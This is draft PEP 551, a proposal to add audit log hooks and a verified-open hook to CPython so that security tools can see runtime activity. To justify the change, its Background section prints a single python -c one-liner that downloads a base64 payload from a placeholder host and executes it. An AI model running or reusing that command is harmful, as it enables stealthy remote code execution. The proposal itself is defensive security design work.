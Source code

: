 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Standards Track
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History:

Abstract
========

This PEP describes additions to the Python API and specific behaviors for the
CPython implementation that make actions taken by the Python runtime visible to
security and auditing tools. The goals in order of increasing importance are to
prevent malicious use of Python, to detect and report on malicious use, and most
importantly to detect attempts to bypass detection. Most of the responsibility
for implementation is required from users, who must customize and build Python
for their own environment.

We propose two small sets of public APIs to enable users to reliably build their
copy of Python without having to modify the core runtime, protecting future
maintainability. We also discuss recommendations for users to help them develop
and configure their copy of Python.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote or
elevated code execution. However, in our modern connected world, the more
dangerous vulnerabilities are those that enable advanced persistent threats
(APTs). APTs are achieved when an attacker is able to penetrate a network,
establish their software on one or more machines, and over time extract data or
intelligence. Some APTs may make themselves known by maliciously damaging data
(e.g., `WannaCrypt <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use a
combination of traditional vulnerabilities, social engineering, phishing (or
spear-phishing), thorough network analysis, and an understanding of
misconfigured environments to establish themselves and do their work.

The first infected machines may not be the final target and may not require
special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to spread
to production machines through normal deployment channels. It is common for APTs
to persist on as many machines as possible, with sheer weight of presence making
them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their tracks, the
biggest barrier to detection is a lack of insight. System administrators with
large networks rely on distributed logs to understand what their machines are
doing, but logs are often filtered to show only error conditions. APTs that are
attempting to avoid detection will rarely generate errors or abnormal events.
Reviewing normal operation logs involves a significant amount of effort, though
work is underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that are
already installed on the target machines, since log messages from these tools
are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the existence
of APTs or methods and mitigations that do not apply to this PEP. For further
information about the field, we recommend reading or watching the resources
listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its prevalence on
server and developer machines, its ability to execute arbitrary code provided as
data (as opposed to native binaries), and its complete lack of internal logging.
This allows attackers to download, decrypt, and execute malicious code with a
single command::

    python -c "import urllib.request, base64; exec(base64.b64decode(urllib.request.urlopen('http://my-exploit/py.b64')).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being written to
disk (base64 is often sufficient to bypass these checks). It also bypasses
protections such as file access control lists or permissions (no file access
occurs), approved application lists (assuming Python has been approved for other
uses), and automated auditing or logging (assuming Python is allowed to access
the internet or access another machine on the local network from which to obtain
its payload).

General consensus among the security community is that totally preventing
attacks is infeasible and defenders should assume that they will often detect
attacks only after they have succeeded. This is known as the "assume breach"
mindset. [1]_ In this scenario, protections such as sandboxing and input
validation have already failed, and the important task is detection, tracking,
and eventual removal of the malicious code. To this end, the primary feature
required from Python is security transparency: the ability to see what
operations the Python runtime is performing that may indicate anomalous or
malicious use. Preventing such use is valuable, but secondary to the need to
know that it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which events
within a scripting engine are worth logging. However, given the value of many
logs events are not recognized until after an attack is detected, it is
important to capture as much as possible and filter views rather than filtering
at the source (see the No Easy Breach video from above). Events that are always
of interest include attempts to bypass event logging, attempts to load and
execute code that is not correctly signed or access-controlled, use of uncommon
operating system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create and hide
files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in order to
detect abnormal or malicious usage. Currently, the Python runtime does not
provide any ability to do this, which (anecdotally) has led to organizations
switching to other languages. The aim of this PEP is to enable system
administrators to deploy a security transparent copy of Python that can
integrate with their existing auditing and protection systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* check execute bit on imported modules


On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on production
machines is highly appealing to system administrators and will make Python a
more trustworthy dependency for application developers.


Overview of Changes
===================

True security transparency is not fully achievable by Python in isolation. The
runtime can log as many events as it likes, but unless the logs are reviewed and
analyzed there is no value. Python may impose restrictions in the name of
security, but usability may suffer. Different platforms and environments will
require different implementations of certain security features, and
organizations with the resources to fully customize their runtime should be
encouraged to do so.

The aim of these changes is to enable system administrators to integrate Python
into their existing security systems, without dictating what those systems look
like or how they should behave. We propose two API changes to enable this: an
Event Log Hook and Verified Open Hook. Both are not set by default, and both
require modifying the appropriate entry point to enable any functionality. For
the purposes of validation and example, we propose a new spython/spython.exe
entry point program that enables some basic functionality using these hooks.
However, the expectation is that security-conscious organizations will create
their own entry points to meet their needs.

Event Log Hook
--------------

In order to achieve security transparency, an API is required to raise messages
from within certain operations. These operations are typically deep within the
Python runtime or standard library, such as dynamic code compilation, module
imports, DNS resolution, or use of certain modules such as ``ctypes``.

The new APIs required for log hooks are::

   # Add a logging hook
   sys.addloghook(hook: Callable[str, tuple]) -> None
   int PySys_AddLogHook(int (*hook)(const char *event, PyObject *args));

   # Raise an event with all logging hooks
   sys.loghook(str, *args) -> None
   int PySys_LogHook(const char *event, PyObject *args);

   # Internal API used during Py_Finalize() - not publicly accessible
   void _Py_ClearLogHooks(void);

Hooks are added by calling ``PySys_AddLogHook()`` from C at any time, including
before ``Py_Initialize()``, or by calling ``sys.addloghook()`` from Python code.
Hooks are never removed or replaced, and existing hooks have an opportunity to
refuse to allow new hooks to be added (adding a logging hook is logged, and so
preexisting hooks can raise an exception to block the new addition).

When events of interest are occurring, code can either call ``PySys_LogHook()``
from C (while the GIL is held) or ``sys.loghook()``. The string argument is the
name of the event, and the tuple contains arguments. A given event name should
have a fixed schema for arguments, and both arguments are considered a public
API (for a given x.y version of Python), and thus should only change between
feature releases with updated documentation.

When an event is logged, each hook is called in the order it was added with the
event name and tuple. If any hook returns with an exception set, later hooks are
ignored and *in general* the Python runtime should terminate. This is
intentional to allow hook implementations to decide how to respond to any
particular event. The typical responses will be to log the event, abort the
operation with an exception, or to immediately terminate the process with an
operating system exit call.

When an event is logged but no hooks have been set, the ``loghook()`` function
should include minimal overhead. Ideally, each argument is a reference to
existing data rather than a value calculated just for the logging call.

As hooks may be Python objects, they need to be freed during ``Py_Finalize()``.
To do this, we add an internal API ``_Py_ClearLogHooks()`` that releases any
``PyObject*`` hooks that are held, as well as any heap memory used. This is an
internal function with no public export, but it passes an event to all existing
hooks to ensure that unexpected calls are logged.

See `Log Hook Locations`_ for proposed log hook points and schemas, and the
`Recommendations`_ section for discussion on appropriate responses.

Verified Open Hook
------------------

Most operating systems have a mechanism to distinguish between files that can be
executed and those that can not. For example, this may be an execute bit in the
permissions field, or a verified hash of the file contents to detect potential
code tampering. These are an important security mechanism for preventing
execution of data or code that is not approved for a given environment.
Currently, Python has no way to integrate with these when launching scripts or
importing modules.

The new public API for the verified open hook is::

   # Set the handler
   int Py_SetOpenForExecuteHandler(PyObject *(*handler)(const char *narrow, const wchar_t *wide))

   # Open a file using the handler
   os.open_for_exec(pathlike)

The ``os.open_for_exec()`` function is a drop-in replacement for
``open(pathlike, 'rb')``. Its default behaviour is to open a file for raw,
binary access - any more restrictive behaviour requires the use of a custom
handler. (Aside: since ``importlib`` requires access to this function before the
``os`` module has been imported, it will be available on the ``nt``/``posix``
modules, but the intent is that other users will access it through the ``os``
module.)

A custom handler may be set by calling ``Py_SetOpenForExecuteHandler()`` from C
at any time, including before ``Py_Initialize()``. When ``open_for_exec()`` is
called with a handler set, the handler will be passed the processed narrow or
wide path, depending on platform, and its return value will be returned
directly. The returned object should be an open file-like object that supports
reading raw bytes. This is explicitly intended to allow a ``BytesIO`` instance
if the open handler has already had to read the file into memory in order to
perform whatever verification is necessary to determine whether the content is
permitted to be executed.

Note that these handlers can import and call the ``_io.open()`` function on
CPython without triggering themselves.

If the handler determines that the file is not suitable for execution, it should
raise an exception of its choice, as well as performing any other logging or
notifications.

All import and execution functionality involving code from a file will be
changed to use ``open_for_exec()`` unconditionally. It is important to note that
calls to ``compile()``, ``exec()`` and ``eval()`` do not go through this
function - a log hook that includes the code from these calls will be added and
is the best opportunity to validate code that is read from the file. Given the
current decoupling between import and execution in Python, most imported code
will go through both ``open_for_exec()`` and the log hook for ``compile``, and
so care should be taken to avoid repeating verification steps.

API Availability
----------------

While all the functions added here are considered public and stable API, the
behavior of the functions is implementation specific. The descriptions here
refer to the CPython implementation, and while other implementations should
provide the functions, there is no requirement that they behave the same.

For example, ``sys.addloghook()`` and ``sys.loghook()`` should exist but may do
nothing. This allows code to make calls to ``sys.loghook()`` without having to
test for existence, but it should not assume that its call will have any effect.
(Including existence tests in security-critical code allows another vector to
bypass logging, so it is preferable that the function always exist.)

``os.open_for_exec()`` should at a minimum always return ``_io.open(pathlike,
'rb')``. Code using the function should make no further assumptions about what
may occur, and implementations other than CPython are not required to let
developers override the behavior of this function with a hook.


Log Hook Locations
==================

Calls to ``sys.loghook()`` or ``PySys_LogHook()`` will be added to the following
operations with the schema in Table 1. Unless otherwise specified, the ability
for log hooks to abort any listed operation should be considered part of the
rationale for including the hook.

.. csv-table:: Table 1: Log Hooks
   :header: "API Function", "Event Name", "Arguments", "Rationale"
   :widths: 2, 2, 3, 6
   
   ``PySys_AddLogHook``, ``sys.addloghook``, "", "Detect when new log hooks are
   being added."
   ``_PySys_ClearLogHooks``, ``sys._clearloghooks``, "", "Notifies hooks they
   are being cleaned up, mainly in case the event is triggered unexpectedly.
   This event cannot be aborted."
   ``Py_SetOpenForExecuteHandler``, ``setopenforexecutehandler``, "", "Detects
   any attempt to set the ``open_for_execute`` handler."
   "``compile``, ``exec``, ``eval``, ``PyAst_CompileString``", ``compile``, "
   ``(code, filename_or_none)``", "Detect dynamic code compilation. Note that
   this will also be called for regular imports of source code, including those
   that used ``open_for_exec``."
   ``import``, ``import``, "``(module, filename, sys.path, sys.meta_path,
   sys.path_hooks)``", "Detect when modules are imported. This is raised before
   the module name is resolved to a file. All arguments other than the module
   name may be ``None`` if they are not used or available."
   "``_ctypes.dlopen``, ``_ctypes.LoadLibrary``", ``ctypes.dlopen``, "
   ``(module_or_path,)``", "Detect when native modules are used."
   ``_ctypes._FuncPtr``, ``ctypes.dlsym``, "``(lib_object, name)``", "Collect
   information about specific symbols retrieved from native modules."
   ``_ctypes._CData``, ``ctypes.cdata``, "``(ptr_as_int,)``", "Detect when code
   is accessing arbitrary memory using ``ctypes``"
   ``id``, ``id``, "``(id_as_int,)``", "Detect when code is accessing the id of
   objects, which in CPython reveals information about memory layout."
   ``sys._getframe``, ``sys._getframe``, "``(frame_object,)``", "Detect when
   code is accessing frames directly"
   ``sys._current_frames``, ``sys._current_frames``, "", "Detect when code is
   accessing frames directly"
   ``PyEval_SetProfile``, ``sys.setprofile``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.setprofile`` eventually calls this function, so the event
   will be logged for each thread."
   ``PyEval_SetTrace``, ``sys.settrace``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.settrace`` eventually calls this function, so the event
   will be logged for each thread."
   ``_PyEval_SetAsyncGenFirstiter``, ``sys.set_async_gen_firstiter``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetAsyncGenFinalizer``, ``sys.set_async_gen_finalizer``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetCoroutineWrapper``, ``sys.set_coroutine_wrapper``, "", "Detect
   changes to the coroutine wrapper."
   ``Py_SetRecursionLimit``, ``sys.setrecursionlimit``, "``(new_limit,)``", "
   Detect changes to the recursion limit."
   ``_PyEval_SetSwitchInterval``, ``sys.setswitchinterval``, "``(interval_us,)``
   ", "Detect changes to the switching interval."
   "``socket.bind``, ``socket.connect``, ``socket.connect_ex``,
   ``socket.sendmsg``, ``socket.sendto``", ``socket.address``, "``(address,)``
   ", "Detect access to network resources. The address is unmodified from the
   original call."
   ``socket.__init__``, "socket()", "``(family, type, proto)``", "Detect
   creation of sockets. The arguments will be int values."
   ``socket.gethostname``, ``socket.gethostname``, "", "Detect attempts to
   retrieve the current host name."
   ``socket.sethostname``, ``socket.sethostname``, "``(name,)``", "Detect
   attempts to change the current host name. The name argument is passed as a
   bytes object."
   "``socket.gethostbyname``, ``socket.gethostbyname_ex``", "
   ``socket.gethostbyname``", "``(name,)``", "Detect host name resolution. The
   name argument is a str or bytes object."
   ``socket.gethostbyaddr``, ``socket.gethostbyaddr``, "``(address,)``", "Detect
   host resolution. The address argument is a str or bytes object."
   ``socket.getservbyname``, ``socket.getservbyname``, "``(name, protocol)``", "
   Detect service resolution. The arguments are str objects."
   ``socket.getservbyport``, ``socket.getservbyport``, "``(port, protocol)``", "
   Detect service resolution. The port argument is an int and protocol is a
   str."

TODO - more hooks in ``_socket``, ``_ssl``, others?


SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on Windows and
``spythonX.Y`` on other platforms. This entry point is intended primarily as an
example, as we expect most users of this functionality to implement their own
entry point and hooks (see `Recommendations`_). It will also be used for tests.

Source builds will create ``spython`` by default, but distributors may choose
whether to include ``spython`` in their pre-built packages. The python.org
managed binary distributions will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the first
argument, and does not allow any options. This prevents arbitrary code execution
from in-memory data or non-script files (such as pickles, which can be executed
using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment variables)
and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it will be
used to initialize ``sys.path`` following the rules currently described `for
Windows <https://docs.python.org/3/using/windows.html#finding-modules>`_.

**Log security events to a file**

Before initialization, ``spython`` will set a log hook that writes events to a
local file. By default, this file is the full path of the process with a
``.log`` suffix, but may be overridden with the ``SPYTHONLOG`` environment
variable (despite such overrides being explicitly discouraged in
`Recommendations`_).

The log hook will also abort all ``addloghook`` events, preventing any other
hooks from being added.

On Windows, code from ``compile`` events will submitted to AMSI [5]_ and if it
fails to validate, the compile event will be aborted. This can be tested by
calling ``compile()`` or ``eval()`` on the contents of the `EICAR test file
<http://www.eicar.org/86-0-Intended-use.html>`_.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-execute hook that
validates all files opened with ``os.open_for_exec``. This implementation will
require all files to have a ``.py`` suffix (thereby blocking the use of cached
bytecode), and will raise a custom log message ``spython.open_for_exec``
containing ``(filename, True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any other
process from opening it with write access, which allows the hook to perform
additional validation on the contents with confidence that it will not be
modified between the check and use. Compilation will later trigger a ``compile``
event, so there is no need to read the contents now for AMSI, but other
validation mechanisms such as DeviceGuard [4]_ should be performed here.


Performance Impact
==================

**TODO**

Full impact analysis still requires investigation. Preliminary testing shows
that calling ``sys.loghook`` with no hooks added does not significantly affect
any existing benchmarks, though targeted microbenchmarks can observe an impact.

Performance impact using ``spython`` or with hooks added are not of interest
here, since this is considered opt-in functionality.


Recommendations
===============

Specific recommendations are difficult to make, as the ideal configuration for any environment will depend on the user's ability to manage, monitor, and respond to activity on their own network. However, many of the proposals here do not appear to be of value without deeper illustration. This section provides recommendations using the terms **should** (or **should not**), indicating that we consider it dangerous to ignore the advice, and **may**, indicating that for the advice ought to be considered for high value systems. The term **sysadmins** refers to whoever is responsible for deploying Python throughout your network, though different organizations may have different titles for the relevant person.

Sysadmins **should** build their own entry point, likely starting from ``spython``, and directly interface with the security systems available in their environment. The more tightly integrated, the less likely a vulnerability will be found allowing an attacker to bypass those systems. In particular, the entry point **should not** obtain any settings from the current environment, such as environment variables, unless those settings are otherwise protected from modification.

The default ``python`` entry point **should not** be deployed to production machines, but could be given to developers to use and test Python on non-production machines. Sysadmins **may** consider deploying a less restrictive version of their entry point to developer machines, since any system connected to your network is a potential target.

Python deployments **should** be made read-only using any available platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures for every file in a Python deployment, ideally verified using a private certificate. For example, Windows supports embedding signatures in executable files and using catalogs for others, and can use DeviceGuard [4]_ to validate signatures either automatically or using an ``open_for_exec`` hook.

Sysadmins **should** collect as many logged events as possible, and **should** copy them off of local machines frequently. Even if logs are not being constantly monitored for suspicious activity, once an attack is detected it is too late to enable logging. Log hooks **should not** attempt to preemptively filter events, as even benign events are useful when analyzing the progress of an attack. (Watch the "No Easy Breach" video under `Further Reading`_ for a deeper look at this side of things.)

Log hooks **should** write events to logs before attempting to abort. As discussed earlier, it is more important to record malicious actions than to prevent them. Very few actions should be aborted, as most will occur during normal use. Sysadmins **may** audit their Python code and abort operations that are known to never be used deliberately.

On production machines, the first log hook **should** be set in C code before ``Py_Initialize`` is called, and that hook **should** unconditionally abort the ``sys.addloghook`` event. The Python interface is mainly useful for testing.

On production machines, a non-validating ``open_for_exec`` hook **may** be set in C code before ``Py_Initialize`` is called. This prevents later code from overriding the hook, however, logging the ``setopenforexecutehandler`` event is useful since no code should ever need to call it. Using at least the sample ``open_for_exec`` hook implementation from ``spython`` is recommended.

[TODO: more good advice; less bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the Python
runtime safer for production use, and especially to James Powell for doing much
of the initial research, analysis and implementation, Lee Holmes for invaluable
insights into the info-sec field and PowerShell's responses, and Brett Cannon
for the grounding discussions.

Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be distributed
only subject to the terms and conditions set forth in the Open Publication
License, v1.0 or later (the latest version is presently available at
http://www.opencontent.org/openpub/).
